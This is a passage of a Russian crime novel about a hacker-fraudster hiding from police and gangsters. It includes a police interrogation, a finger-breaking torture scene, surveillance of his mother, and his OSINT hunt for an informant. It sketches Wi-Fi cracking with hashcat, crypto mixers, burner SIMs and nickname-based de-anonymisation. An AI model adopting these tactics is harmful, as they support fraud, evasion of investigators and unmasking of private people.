Он создал маску для hashcat, которая перебирала бы не слова, а самые популярные и ленивые комбинации. Он запустил перебор. Скорость была выше. Минута. Пять. Десять. Двадцать. И вдруг… перебор остановился. Вентилятор сбросил обороты. На экране появилась новая строка, подсвеченная зелёным.

*Status........: Cracked*

*Hash...........: 9C:1A:B3:4F:DE:11 Daria_Home*

*Password.......: qwerty12345*

Никита криво усмехнулся. Это не было радостью. Это было подтверждением его правоты. Подтверждением того, что мир устроен именно так, как он думал. Он ввёл пароль в настройках сети. Значок Wi-Fi показал полное подключение. Он пропустил трафик через свой Whonix-шлюз. Он снова был онлайн. Призрак в чужой сети.

*03:00*

Теперь, когда у него был доступ, пришло время для самого страшного. Разведка. Нужно было понять, что произошло. Оценить масштаб катастрофы.

Руки слегка дрожали, когда он открыл браузер в своей защищённой виртуальной машине. Он чувствовал себя сапёром, который вот-вот перережет не тот проводок. Каждый запрос — это потенциальный след. Tor скрывал его, но паранойя въелась в подкорку.

Первый запрос: «задержание мошенников Санкт-Петербург ноябрь 2023». Он нажал Enter. «Фонтанка», «47news», официальные сводки на сайте МВД. Новости о телефонных аферистах, карманниках, пьяных драках. Ничего. Ни единого слова о провале многомиллионной операции. Ни намёка на облаву в банках.

Он изменил запрос: «ГУЭБиПК рейд Санкт-Петербург», «арест обнальщиков ВТБ». Снова пустота. Неестественная пустота.

Он сидел и смотрел на пустые страницы результатов поиска. И медленно, холодея изнутри, он начал понимать. Он ошибся. Он всё это время думал не о том враге. Если бы его искал Козлов, город бы уже гудел. Утечки, слухи, трупы в лесополосе — вот их методы. Эта выверенная, стерильная пустота в эфире означала только одно.

Работает не криминал. Работает Система.

Они не трубят о своих успехах в прессе. Они не афишируют ход расследования, чтобы не спугнуть главную цель. Его. Задержание дропов было лишь началом. Они выдернули из паутины несколько мелких мух и теперь терпеливо ждали, когда дёрнется сама паутина. Когда паук выдаст себя.

*«Они знают. Они не знают, кто я, но они знают, что я есть. И они ждут. Каждый мой шаг в сети теперь — как шаг по минному полю. Они не ищут меня. Они ждут, когда я сам приду к ним. Когда я попытаюсь связаться с матерью. Когда я попробую вывести деньги. Любая ошибка — и всё».*

Он сидел в полумраке своей норы в Колпино, освещённый лишь безжизненным светом экрана. Он был в безопасности. Он был анонимен. Он снова был «в сети». Но он никогда в жизни не чувствовал себя таким уязвимым, таким слепым и таким загнанным. Он был в цифровой тюрьме без стен и решёток. И стенами этой тюрьмы было мёртвое молчание сети.

### Глава 7

Глава 7

Первые трое суток в конспиративной квартире в Колпино Никита почти не спал. Его сознание превратилось в оголённый нерв, реагирующий на каждый звук за пределами хлипкой входной двери. Скрип лифта на этаже заставлял его замирать, прислушиваясь к шагам. Резкий хлопок выхлопной трубы старой «Газели» во дворе-колодце вызывал короткий, ледяной спазм в груди — на секунду показалось, выстрел. Ночной кашель соседа за стеной казался зашифрованным сигналом. Он был скомпрометированным сервером, отключённым от сети, но всё ещё слышащим фантомные запросы на несуществующие порты.

Но к исходу четвёртого дня животный ужас выгорел, оставив после себя только холодный пепел методичной паранойи. Она не была легче, но была продуктивнее. Паника сменилась протоколом. Никита выстроил себе новый мир, подчинённый единственному закону: операционная безопасность. Он спал урывками, не больше четырёх часов подряд, и только днём, когда многоквартирный дом жил своей обычной, шумной жизнью, маскируя любые подозрительные звуки. Ночью, когда панельная коробка затихала, он работал.

За эти десять дней он похудел килограмма на четыре. Острая линия челюсти проступила из-под юношеской припухлости, под глазами залегли тёмные, почти фиолетовые тени. Питался он исключительно доставкой из ближайшей круглосуточной шавермы и пиццерии, заказывая еду на левые SIM-карты, которые покупал пачками у мутного типа возле станции метро. Оплачивал остатками «чистой» криптовалюты — крохами, оставшимися от старых, мелких дел и пропущенными через несколько миксеров до состояния почти полной анонимности. Каждый раз, когда курьер звонил в домофон, Никита выдерживал пятнадцатиминутную паузу, наблюдая за двором через щель в занавесках, прежде чем спуститься и забрать пакет, оставленный на подоконнике первого этажа. Он превратился в призрака в собственном убежище.

Он больше не был жертвой. Он стал оператором в осаждённой крепости, системным администратором собственного выживания. Он принял как данность, что его враг — не тупой бандит вроде Козлова, которого можно было обмануть или от которого можно было откупиться. Его враг был безликим, методичным и обладал почти безграничными ресурсами. Система. И чтобы выжить в борьбе с Системой, он сам должен был стать системой. Безупречной, лишённой эмоций и работающей без сбоев. Каждый день начинался и заканчивался цифровым чекапом: проверка IP-адреса на утечки, сканирование Wi-Fi эфира на предмет новых устройств, мониторинг даркнет-форумов и новостных агрегаторов. Он стал функцией, алгоритмом, зацикленным на одной задаче — остаться невидимым.

*16 ноября 2023 года. 11:00.*

**Главное управление экономической безопасности и противодействия коррупции, Санкт-Петербург.**

Стены цвета жухлой фисташки, стол со следами от кружек, два стула, намертво привинченные к полу. Комната для допросов была спроектирована, чтобы убивать волю ещё до того, как следователь произнесёт первое слово. Воздух был спёртым, пах пылью старых папок и застарелым запахом дезинфекции. Дроссель единственной лампы под решёткой неровно потрескивал, заливая всё вокруг мертвенным светом. Посреди комнаты стоял стол, его поверхность из ДСП была испещрена царапинами. Ничего лишнего. Ничего, за что мог бы зацепиться взгляд. Пространство, спроектированное для того, чтобы оставить человека наедине с его собственным ужасом.

Майор Дмитрий Власов вошёл без стука. Дверь за ним закрылась с тяжёлым, маслянистым щелчком замка, отрезая комнату от остального мира. На нём был мятый тёмно-серый свитер с растянутым воротом и потёртые джинсы. Он выглядел не как офицер полиции, а как уставший университетский преподаватель. В одной руке он держал две пластиковые папки, в другой — две кружки. Он молча прошёл к столу и сел напротив Павла Сергеева. Одна из кружек, с выцветшим логотипом «Зенита», осталась перед ним. Вторую, простую белую, он пододвинул к парню.

Павел вздрогнул от этого простого жеста. Последние несколько суток в изоляторе слились для него в один кошмар. Он почти не спал. Его лицо было бледным, с сероватым оттенком. Треснувшая линза очков была заклеена куском пластыря. Он сидел в мешковатой тюремной робе, и его тонкие запястья тонули в широких рукавах. Руки, лежавшие на коленях, мелко дрожали.

Власов, казалось, не замечал его состояния. Он достал из кармана электрический чайник размером с термос, воткнул его в розетку. Через минуту раздалось шипение. Майор молча налил кипяток себе, потом Павлу. Из внутреннего кармана пиджака, висевшего на спинке стула, он извлёк банку растворимого кофе и ложечку. Он насыпал две ложки себе, размешал. Затем пододвинул банку Павлу.

— Пей, — сказал он. Голос был ровным, лишённым каких-либо эмоций.

Павел посмотрел на кружку, потом на Власова. Он не притронулся к кофе.

Власов сделал глоток, поморщился.

— Знаешь, в чём твоя проблема, Павел? — начал он так же буднично. Он открыл одну из папок. В ней лежал один-единственный лист. — Твоя проблема в том, что ты думаешь, что это игра. Что сейчас войдут злые дяди, будут кричать, угрожать. А потом придёт адвокат, мама заплачет, и всё как-то рассосётся. Но это не игра.

Он развернул лист к Павлу. Это была распечатка статьи из Уголовного кодекса.

— Статья двести десятая. Организация преступного сообщества или участие в нём. Ты участник. Часть вторая. Лишение свободы на срок от пяти до десяти лет.

Власов сделал ещё глоток кофе. Он говорил медленно, отчётливо, давая каждому слову впитаться в сознание Павла.

— Теперь давай посчитаем. Ты у нас студент, ранее не судим. Это смягчающие. Судья будет добрый, даст тебе по нижней планке. Пять лет. Нет, подожди. Дело-то у нас в особо крупном размере. Это отягчающее. Значит, не пять. Лет восемь. Восемь лет, Павел. Тебе сейчас девятнадцать. Выйдешь ты в двадцать семь. Без образования, потому что из института тебя отчислят через месяц. Без профессии. С волчьим билетом, с которым тебя не возьмут даже грузчиком в «Пятёрочку». С восемью годами отборного жизненного опыта в компании убийц и насильников. В двадцать семь лет твоя жизнь, по сути, закончится, так и не начавшись.

В мёртвой тишине комнаты щелчок ложечки о край кружки заставил Павла вздрогнуть. Потрескивание лампы над головой, казалось, сверлило ему мозг. Он хотел что-то сказать, но слова застряли в пересохшем горле. В животе будто провернули мокрую ледяную тряпку. В глазах майора он видел не злость, а нечто худшее — полное, абсолютное безразличие. Он был для этого человека не личностью, а просто пунктом в отчёте.

Власов отпил ещё кофе и закрыл первую папку. Затем открыл вторую.

— А есть другой путь, — продолжил он тем же монотонным голосом. — Статья семьдесят пятая. Освобождение от уголовной ответственности в связи с деятельным раскаянием. Звучит красиво, правда? На деле всё проще. Ты нам помогаешь. Рассказываешь всё, что знаешь. Имена, ники, клички, номера кошельков. Всё до последней мелочи. И тогда, Павел, — Власов чуть подался вперёд, впервые за весь разговор посмотрев парню прямо в глаза, — тогда двести десятая статья превращается… в сто пятьдесят девятую, часть четвёртая. Мошенничество. Звучит тоже страшно, но есть нюанс. С учётом твоего чистосердечного признания и помощи следствию, ты получаешь условный срок. Два года. Через два года судимость снимается. Тебя восстанавливают в институте. В двадцать один год ты начинаешь жизнь с чистого листа. Словно этого разговора, этой комнаты, этих восьми лет, которые мы только что у тебя почти отняли, — никогда и не было.

Он откинулся на спинку стула. Пауза затянулась. Власов больше ничего не говорил. Он просто сидел и пил свой остывающий кофе. Он дал Павлу на выбор две жизни. Одну — сломанную, искалеченную. Вторую — целую, с будущим. И цена за эту вторую жизнь была всего лишь предательство.

Павел посмотрел на свои дрожащие руки. Он вспомнил лицо матери, когда он сказал ей, что поступил в университет. Гордое, счастливое. Потом он представил её лицо, когда она услышит приговор — восемь лет. Эта мысль сломала его окончательно. Последние остатки юношеского гонора испарились без следа. Он поднял глаза на Власова. Губы его дрожали. Он медленно, почти незаметно, кивнул.

Власов кивнул в ответ, словно получил подтверждение давно известного ему факта. Он достал из кармана телефон, набрал короткий номер.

— Андрей, зайди. Принеси ноут. Наш клиент готов к сотрудничеству.

Через пять минут в комнате появился молодой парень в джинсах и толстовке, на вид ненамного старше самого Павла. Он молча поставил на стол ноутбук, открыл его и сел рядом с Власовым. Экран ожил, на нём открылось окно текстового редактора.

— Начинай, — бросил Власов, обращаясь к Павлу.

И Павел начал говорить. Сначала запинаясь, потом всё быстрее, словно прорвало плотину. Он говорил монотонно, без эмоций, выгружая данные. Он диктовал всё, что помнил. Ники в Telegram: @Dropper_Chief, @Soika, @Zmey666. И главный ник, тот, кто отдавал приказы, кто казался ему почти богом из-за экрана — @B4d_M00d. Он продиктовал по памяти несколько адресов Monero-кошельков. Он рассказал про систему связи: одноразовые чаты, которые удалялись после каждой операции.

Аналитик Андрей быстро печатал. Каждое слово Павла превращалось в строку текста, в поисковый запрос, в зацепку для невидимой машины расследования.

— По никам прогони по нашим базам, — негромко скомандовал Власов.

Андрей открыл несколько окон терминала. На чёрном фоне побежали белые и зелёные строки. Он вбивал никнеймы в поисковую строку системы, которая агрегировала данные из сотен слитых баз данных теневых форумов и старых уголовных дел.

— По @Dropper_Chief есть совпадение, — сказал аналитик через минуту. — Дело по обналу два года назад. Фигурант — некий Семён Глушко. Но он уже год как сидит в Крестах. Не наш клиент. Это просто популярный ник, его используют все кому не лень.

Власов разочарованно хмыкнул. Это была обычная рутина. Девяносто девять процентов информации оказывались мусором. Но ради одного процента стоило перелопачивать тонны этой грязи.

— Голос, — сказал Власов, снова поворачиваясь к Павлу. — Ты общался с ним голосом?

Павел кивнул.

— Пару раз. В самом начале. Инструктаж. Он звонил через защищённый мессенджер.

— Опиши голос. Возраст, тембр, манера речи.

Павел наморщил лоб, пытаясь выудить из памяти детали.

— Молодой. Голос молодой, точно не старый. Может, лет тридцать. Немного нервный, говорил быстро, иногда сбивался. Использовал много слов, которых я не понимал… ну, типа… «вектор атаки», «opsec», что-то такое.

— Что-то ещё? Любая мелочь. Оговорка, фоновый шум, что угодно. — Власов подался вперёд. Это был самый важный момент. Человеческий фактор. Машины можно было обмануть, но люди всегда совершали ошибки.

Павел закрыл глаза. Он снова слышал тот быстрый, немного гнусавый голос в своей голове. Инструкции, цифры, предупреждения… И вдруг он вспомнил. Одна фраза.

— Да, — сказал он, открывая глаза. — Один раз. Он объяснял, где лучше ловить сеть для левой симки, чтобы не светить домашний адрес. И он сказал… он сказал: «Я, когда на Кораблестроителей жил, всегда у залива ловил». Он как-то так сказал… «на Кораблестроителей».

Власов замер. Это была она. Та самая крупица золота в тонне пустой породы. Мелкая, случайная оговорка, выдавшая географическую привязку. Не адрес, нет. Но уже что-то. Район. Конкретная улица на Васильевском острове. Это сужало круг поисков с миллионов до десятков тысяч.

Власов сделал пометку в своём блокноте. Он посмотрел на аналитика.

— По кошелькам и нику B4d_M00d — полная отработка. Поднимайте все транзакции, ищите пересечения. Прогоните ник по всем известным форумам, даже по тем, что уже десять лет как мертвы. Я хочу знать, где он дышал за последние пять лет. Запросите у операторов биллинг по всем базовым станциям в районе Кораблестроителей за последние три года. Ищите аномальную активность анонимных мессенджеров. Работайте.

Он встал. Для него допрос был окончен. Он получил то, за чем пришёл. Павел Сергеев перестал быть для него интересен. Он снова стал просто материалом. Власов вышел из комнаты, не прощаясь. В воздухе остался только запах дешёвого растворимого кофе.

*16 ноября 2023 года. 15:00.*

*Промзона на Парнасе.*

В гараже было холодно и сыро, как в овощном ящике. Воздух пропитался запахом бензина, машинного масла и влажного бетона. Единственная лампочка без плафона, свисавшая с потолка, отбрасывала резкие тени на стены, покрытые пятнами плесени. Посреди этого промозглого пространства, привязанный к металлическому стулу, сидел человек. Его звали Станислав, но в узких кругах его знали как «Филина». Он был хакером-самоучкой, мелким дельцом из цифрового подполья, который иногда выполнял заказы для Никиты.

Его лицо было разбито. Левый глаз заплыл, из рассечённой губы сочилась кровь. Двое мужчин стояли перед ним. Один, массивный, с бычьей шеей и тупым лицом. Второй, худощавый и дёрганый, с бегающими глазами. Они были из бригады Козлова, и они не тратили время на театральные эффекты.

— Викторыч велел поговорить, — сказал худощавый. Дыхание его пахло табаком. — Мы знаем, ты с этим вашим B4d_M00d’ом дела имел. Адрес его нам не нужен. И телефон не нужен. Мы знаем, что он сейчас на дне. Но рано или поздно ему понадобится помощь. Деньги, инфа, что угодно. И он выйдет на тебя.

Филин судорожно замотал головой.

Худощавый вздохнул и кивнул массивному. Тот шагнул вперёд. Он грубо схватил левую руку Филина, упёрся большим пальцем в сустав мизинца и навалился всем весом.

В тишине гаража раздался отвратительный, влажный хруст.

Тело Филина выгнулось дугой. Из его горла вырвался сдавленный, булькающий вой. Глаза его расширились от нечеловеческой боли. Массивный, не меняя выражения лица, так же спокойно, с тем же звуком, сломал ему безымянный палец. Резкий запах мочи ударил в нос — Филин обмочился.

Худощавый подождал, пока конвульсии утихнут.

— Вот это ему и передай, — сказал он, брезгливо морщась от запаха. — Сообщение. Чтобы он понял, что шутки кончились. И чтобы знал, что в следующий раз мы придём не к тебе, а к нему. И ломать будем не пальцы.

Они перерезали стяжки, грубо подняли Филина на ноги и вытолкали из гаража в серый, промозглый питерский день. Он рухнул на грязный асфальт, скорчившись от боли и унижения. Машина завелась и, не зажигая фар, скрылась за углом. Филин остался один, наедине со своей болью и сообщением, которое он теперь был обязан доставить.

*16 ноября 2023 года. 17:20.*

*Спальный район на юго-западе Санкт-Петербурга.*

Старая, затонированная «Toyota Camry» стояла на парковке у супермаркета, идеально вписываясь в унылый пейзаж из девятиэтажных панелек. Из этой точки прекрасно просматривался подъезд дома напротив. Человек за рулём не курил и не слушал музыку. Он просто ждал, держа на коленях фотоаппарат с массивным телеобъективом. Он был одним из людей Алиева. Его работа требовала терпения и точности.

В 17:20 дверь нужного подъезда открылась. Сначала показалась палка, на которую тяжело опиралась пожилая женщина. Затем появилась и она сама — Ирина Павловна Сергеева, мать Никиты. Она была укутана в старое пальто, на голове — вязаная шапочка. Лицо её было бледным и осунувшимся. Рядом с ней, поддерживая под руку, шла соседка.

Человек в машине поднял фотоаппарат. В видоискателе он увидел усталое, измученное болезнью лицо женщины. Раздалась серия тихих, почти беззвучных щелчков затвора. Крупный план лица. Общий план, где она с соседкой медленно идёт к единственной скамейке у подъезда. Ещё один кадр — она садится, тяжело дыша. Каждая морщинка на лице, каждая деталь её немощи была зафиксирована с холодной, безжалостной точностью.

Наблюдатель опустил фотоаппарат. Он достал смартфон, подключил к нему камеру. Через минуту лучшие из сделанных фотографий были перекинуты на телефон. Он открыл защищённый мессенджер, выбрал контакт «Босс» и отправил ему пять снимков. Вслед за ними он напечатал короткое сообщение:

*«Объект на месте. Уязвимость подтверждена».*

Он не получил ответа. Ответ и не требовался. Его работа была сделана. Он завёл двигатель и медленно выехал с парковки. На скамейке у подъезда сидела пожилая больная женщина, не подозревая, что только что стала главным оружием в войне, о которой ничего не знала.

*1 декабря 2023 года. 20:00.*

*Конспиративная квартира, Колпино.*

Никита сидел перед экраном дешёвого ноутбука. Комната погрузилась в темноту, и только свет монитора выхватывал из мрака его бледное, сосредоточенное лицо и стол, заваленный упаковками от лапши быстрого приготовления. Он уже несколько дней, по десять-двенадцать часов в сутки, делал единственное, что мог — анализировал.

Перед побегом он успел сделать полный дамп логов со своего C2-сервера. Это был его единственный шанс понять, как его нашли. Тысячи, десятки тысяч строк текста. Он методично, как археолог, просеивал этот цифровой песок в поисках аномалии. Он фильтровал логи по IP-адресам, по юзер-агентам, по временным меткам. Ничего. Всё выглядело чисто. Только известные ему подключения, только его собственные команды. Стена, глухая стена.

Глаза горели от недосыпа. От отчаяния, просто чтобы сделать хоть что-то новое, он изменил параметры фильтра. Он расширил временной диапазон поиска с последнего месяца до целого года. Это была глупость, жест отчаяния. Текущий провал не мог быть связан с событиями годичной давности.

Ноутбук натужно загудел вентилятором. Никита откинулся на спинку скрипучего стула, потёр горящие веки. На экране наконец появился результат. Он пробежал по нему взглядом… и замер.

Там была она. Аномалия.

Несколько коротких сессий подключения к его серверу, датированных ноябрём прошлого года. С диапазона IP-адресов, принадлежащих провайдеру, который обслуживал государственные структуры. Того самого диапазона, с которого пришёл недавний «маячок».

Позвоночник будто протёрли спиртовой салфеткой — холодный, липкий след до самого затылка. Он почувствовал, как в голове на мгновение стало пусто и звонко, будто из неё откачали воздух. Год назад… Что было год назад? Он напряг память, продираясь сквозь туман усталости. И вспомнил.

Мелкое дело. Обналичка для какого-то коммерсанта. Сумма была смешная. Он тогда работал с Филином. Операция сорвалась точно так же — на этапе снятия денег дропами. Их тоже повязали. Тогда они всё списали на случайность. На «палочную систему» ментов, которые иногда устраивают показательные облавы для отчётности. Они просто посчитали, что им не повезло, и забыли.

IP-адреса не врут. Логи не врут.

Они следили за ним. Уже тогда. Год назад.

Осознание обрушилось на него не как озарение, а как бетонная плита. Это не были два разных, не связанных между собой провала. Это были звенья одной цепи. Одной долгой, тщательно спланированной операции. Его «слили» не сейчас. Его вели давно, методично, терпеливо. Провал не был случайностью. Он был запланирован. Та операция год назад была, скорее всего, просто тестом. Проверкой его методов. Они позволили ему уйти, чтобы взять его позже, на более крупной рыбе.

Никита уставился в тёмный экран ноутбука, в котором, как в чёрном зеркале, отражалось его собственное измученное лицо. И впервые за всё это время он понял весь масштаб катастрофы. Он думал, что он игрок. Что он хитроумный хакер, который сидит за кулисами и дёргает за ниточки. Какая самонадеянная, детская чушь.

*«Я не игрок. Я грёбаная фигура на доске. И кто-то невидимый, умный и очень терпеливый только что передвинул меня на клетку под „шах“».*

### Глава 8

Глава 8

*9 декабря 2023 года*

Первый день после откровения в логах был чистым, животным ужасом. Второй и третий — отупляющей апатией, когда Никита просто лежал на продавленном диване, глядя в покрытый слоем пыли потолок и слушая, как в его черепной коробке скребутся мысли-крысы.

Он почти не ел, опустошая последние пачки галет из тревожного рюкзака и запивая их тёплой водой из-под крана. Сон не приходил. То, что приходило вместо него, было вязким, липким полузабытьём — мешаниной из обрывков кода, искажённых лиц и беззвучного крика.

К четвёртому дню ужас перегорел. Как выгорает фосфор, оставляя после себя лишь едкий запах и пустоту. Апатия сменилась чем-то иным. Холодной, кристаллической яростью. Осознание того, что он был не игроком, а лабораторной крысой в чужом, годичном эксперименте, выжгло из него все остатки самонадеянности и страха. Унижение оказалось сильнее ужаса. Его вели. Его пасли, как скот. Позволяли совершать мелкие победы, чтобы в итоге загнать в нужный загон. Эта мысль больше не вызывала паники. Она вызывала желание грызть.

Остальные пять дней он превратил свою жизнь в алгоритм. Подъём с первыми серыми лучами. Пятнадцать минут физических упражнений — отжимания, приседания, пока мышцы не начинало жечь. Это отгоняло дрожь в руках. Потом — обход квартиры. Проверка замка, осмотр окна, прослушивание звуков на лестничной клетке. Гигиена операционной безопасности стала его религией. И только потом — ноутбук. Дешёвый, безликий пластиковый гроб, ставший его единственным окном в мир и единственным оружием. Он почти не спал, существуя на дешёвых энергетиках, купленных в ночном ларьке во время единственной вылазки, совершённой в три часа ночи, в капюшоне и медицинской маске. За девять дней от него прежнего мало что осталось: осунувшееся, небритое лицо с пергаментной кожей, ввалившиеся, воспалённые глаза. Взгляд — как у цепной собаки, которая уже перегрызла половину ошейника. Воздух в квартире стал густым и неподвижным. Он больше не пытался сбежать. Он решил понять механизм ловушки. А поняв — сломать его.

*10 декабря 2023 года, 14:13.*

Никита сидел перед экраном. Липкая поверхность дешёвого кухонного стола прилипала к рукаву его серой толстовки. На экране светился пустой текстовый файл, мигал упрямый, равнодушный курсор. Тик-так. В тёмном глянце монитора отражалось чужое, измождённое лицо, обрамлённое сальными волосами. Глаза утонули в тёмных, воспалённых орбитах. Он не спал больше тридцати часов, и реальность начала терять чёткость, подёргиваться лёгкой рябью, словно плохой видеосигнал.

«Они играли со мной год. Год», — мысль была не эмоциональной, а сухой, как строчка в протоколе. — «Вели, как собаку на поводке. Подкармливали мелкими заказами, позволяли чувствовать себя умным. А потом просто дёрнули за поводок. Значит, где-то есть поводырь. И у этого поводыря должно быть имя».

Он медленно, почти через силу, поднял руку и провёл пальцами по экрану, стирая своё отражение. Стереть себя, чтобы увидеть врага. Все варианты побега, которые он лихорадочно прокручивал в голове, оказались мусором. Стамбул. Минск. Грузия. Система, которая вела его год, не для того строила эту клетку, чтобы он мог так просто из неё свалить. Его ждали бы в любом аэропорту. Бежать — значит признать поражение. Значит, оставаться крысой.

Комбинация клавиш открыла файловый менеджер. Пальцы двигались уверенно. Работа успокаивала. Двойной клик по зашифрованному контейнеру на флешке. Ввод сороказначного пароля — мышечная память. На экране появился единственный файл: chat_logs_full․bak. Полный, до последнего символа, архив его переписки с дроповодами Козлова. Привычка делать бэкапы всего сейчас превратилась в его единственный шанс.

Лог открылся. Тысячи строк текста. Ники, сообщения, таймстампы. Раньше он видел в этом хаос. Теперь он искал в нём порядок. Он искал аномалию. Точку входа.

Чтобы упорядочить мысли, он запустил программу для создания ментальных карт. На белом поле появился центральный узел с надписью: «ПРОВАЛ_ОПЕРАЦИИ». Щелчок клавиши Enter прорезал дребезжание старого холодильника и показался оглушительным. Он почувствовал, как напряжение стягивает кожу на затылке, а во рту стало сухо и горько. «Начали. Или я их, или они меня». Он вспомнил, как однажды по ошибке уронил рабочий сервер небольшой конторы. Те несколько часов паники, пока он восстанавливал всё из бэкапов, молясь, чтобы никто не заметил, — вот что он чувствовал сейчас. Ощущение, что ты стоишь на краю пропасти, которую сам же и вырыл.

От центрального узла он начал тянуть ветки. Каждая ветка — никнейм. Паштет. Змей. Муха. Сойка. Всего двенадцать ников. Напротив каждого он начал методично вписывать всё, что мог выцепить из лога.

Паштет — нервный, писал с ошибками. Явно новичок. «Пушечное мясо. Сгорел первым. От него нити не ведут».

Змей — более опытный, говорил по делу. «Возможно. Но маловероятно. Типичный исполнитель».

Муха — молчаливый, отписывался только о результате. «Тёмная лошадка. Но слишком пассивен для информатора».

Прошёл час, потом второй. Комната погрузилась в синие сумерки, но он не замечал этого, не отрывая взгляда от экрана. Постепенно на ментальной карте вырисовывалась иерархия, и в ней была явная аномалия. Большинство участников были просто «руками». Но трое выделялись. Змей, Ворон и Сойка. Они иногда задавали уточняющие вопросы, демонстрируя понимание процесса. Они были онлайн в нестандартное время. Они были ядром группы.

Его гипотеза обрела форму. «Крыса» — не один из пойманных «пехотинцев». Это было бы слишком мелко. Информатор должен был остаться в тени. Он должен был иметь доступ ко всей оперативной информации. Он должен был быть одним из этой троицы.

Никита обвёл три ника красным контуром. Змей. Ворон. Сойка.

Охота началась.

*15:28.*

Для охоты нужны были инструменты. Никита открыл чёрный прямоугольник терминала. Зелёные буквы на чёрном фоне. Мир, в котором он чувствовал себя дома.

*cd /home/user/spiderfoot*

*python3 sf․py -l 127․0․0․1:8080*

Команды легли в строку, Enter. В браузере Tor открылась аскетичная веб-страница. SpiderFoot. OSINT-комбайн для сбора информации из открытых источников. Программа, которая методично прочёсывала интернет в поисках любых упоминаний цели. Она собирала цифровой мусор, который люди оставляют за собой, и складывала его в аккуратные стопки. Иногда в этом мусоре попадалось золото.

Никита создал новое сканирование. В поле "Scan Target" лёг первый ник — Zmey. Он не питал иллюзий. Профессионал не оставит следов. Но начинать нужно было с базовой проверки. Кнопка "Run Scan Now" нажата.

На экране появился граф. В центре — узел Zmey. Через несколько секунд от него начали расползаться первые нити. «Найдён аккаунт на форуме darkmoney․cc». «Найдёно упоминание в слитой базе данных CDEK». «Связанный email: zmey1988@rambler․ru».

Пульс Никиты на мгновение участился. Rambler. Классика. Он кликнул по узлу с почтовым адресом. SpiderFoot тут же нашёл ещё несколько зацепок. Аккаунт в Steam. Профиль на Drive2․ru. Заброшенный аккаунт во «ВКонтакте». «Вот он. Зацепился», — пронеслось в голове. Это было слишком просто.

Он потратил следующий час, погружаясь в цифровую жизнь этого «Змея». Фотографии старой «девятки», комментарии на игровых форумах, глупые шутки. Он зашёл в тупик. Все следы обрывались три года назад. Аккаунты были заброшены. Это была пустышка. Цифровой призрак. Простое совпадение никнейма.

Никита сжал челюсти так, что заболели зубы. Час. Он потратил целый час на мусор. Он снёс результаты сканирования, ощущая волну глухого раздражения. Это и есть настоящая работа. Не гениальные взломы за пять минут, как в кино. А долгое, изнурительное просеивание тонн информационной руды.

Он вернулся на главную страницу SpiderFoot. В поле "Scan Target" он вбил следующий ник. Voron.

И снова нажал "Run Scan Now".

*18:47.*

Проходили часы. За окном давно стемнело, и единственным источником света в комнате был прямоугольник монитора, бросавший мёртвенные отсветы на лицо Никиты. Он методично, один за другим, прогонял через систему ники из своего списка. Voron. Skif. Bars. Результаты были удручающе однообразны.

Каждый ник порождал ворох цифрового мусора. Забытые аккаунты, комментарии на YouTube десятилетней давности, объявления на «Авито». Следы обычной, глупой, ничем не примечательной человеческой жизни. Он чувствовал, как вязнет в этих данных. Резь в глазах стала почти невыносимой. Он периодически зажмуривался на несколько секунд, и перед внутренним взором плыли фосфорные разводы.

В этот момент тишину прорезал резкий звук. Вибрация дешёвого кнопочного телефона, лежащего на столе. На экране светилось одно слово: «МАМА».

От её слов воздух в комнате будто стал плотнее, мешая дышать. Он не говорил с ней с того самого дня. Девять дней она не знала, где он. Он заставил себя сделать глубокий вдох, пытаясь унять дрожь в голосе. Нажал на зелёную кнопку.

— Да, мам, — голос прозвучал хрипло и чуждо.

— Никитушка, сынок! Слава богу! Я уж не знала, что и думать! Ты где?

— На работе завал, мам. Проект сдаём. Старый телефон… сломался. Купил вот, временный, — ложь лилась легко, почти автоматически.

— Ох, работа у тебя… Ты себя-то береги. Я звоню… Никит, я у врача была сегодня. Анализы пришли. Не очень…

Он сел прямо, вцепившись в телефон так, что побелели костяшки пальцев, и почувствовал, как холодный ком подкатывает к горлу.

— Что не очень? Что конкретно? Что врач сказал?

— Да я не поняла толком… Сказал, что динамика… отрицательная. Что то лекарство, немецкое, уже не так помогает. Говорит, нужно какое-то… сканирование делать. ПЭТ-КТ, кажется. Чтобы посмотреть, что там и как. Очень… очень дорогое, сынок.

Никита закрыл глаза. Перед глазами встала не таблица с никнеймами, а её лицо — уставшее, с сеточкой морщин у глаз. Единственное, что было настоящим в его выдуманном мире. И это настоящее сейчас рушилось.

— Мам, — он заставил себя говорить ровно, спокойно. — Мам, слушай меня. Не волнуйся о деньгах. Слышишь? Я всё решу.

— Никитушка, откуда…

— Я же говорил, проект. Большой. Скоро закроем, будет премия. Очень хорошая премия. Хватит на всё. Ты главное запишись на это своё… сканирование. На ближайшее число. Поняла?

— Ты так устало звучишь… Ты ешь хоть, сынок?

— Ем, мам. Просто… много работы. Ты делай, что я сказал. И слушайся врачей. Я перезвоню, как только смогу. Люблю тебя.

Он сбросил вызов. Несколько секунд он просто сидел, глядя в тёмный экран телефона. Он швырнул его на диван. Вина и бессилие душили, не давая вздохнуть. Он воровал миллионы, а по факту не мог обеспечить самого простого — здоровья единственному близкому человеку. Все его хакерские навыки были бесполезны перед лицом простого анализа крови.

Он вскочил, прошёлся по тесной кухне. Из угла в угол. Ярость, холодная и злая, снова начала подниматься из глубины, вытесняя отчаяние. Деньги. Ему нужны деньги. Для неё. А значит, сидеть и жалеть себя — непозволительная роскошь.

Он с удвоенной, злой энергией сел за стол. Теперь это была не просто игра на выживание. Это была гонка со смертью. С её смертью. Он снова посмотрел на свой список. Остался последний ник из «подозрительной троицы». Сойка.

*03:15 ночи, 11 декабря.*

Усталость превратилась в фон. Она стала частью его тела, как кости или кровь. Глаза горели, словно в них насыпали песка. Почти на автомате, уже не ожидая ничего нового, он вбил в строку поиска SpiderFoot последний ник.

Сойка.

Enter.

Программа отработала почти мгновенно. И на экране появился результат.

Пустота.

Абсолютная, стерильная, звенящая пустота.

Белый экран. Ноль упоминаний. Ноль связанных аккаунтов. Ноль следов. Граф состоял из одного-единственного, сиротливого узла в центре — Soika. Ни одной ниточки, ведущей от него во внешний мир.

Никита замер. Он сидел, не двигаясь, и смотрел на этот пустой экран. Что-то было не так. Мозг, работающий на последних остатках воли, лихорадочно пытался понять, что именно. Он переключился на вкладку с результатами по Паштету. Десятки ссылок. Страница во «ВКонтакте», профиль на игровом форуме. Цифровой портрет девятнадцатилетнего раздолбая. Потом он открыл результаты по Змею. Тоже мусор, но он был. Старые форумы, почта.

И снова вкладка с Сойкой. Пустота.

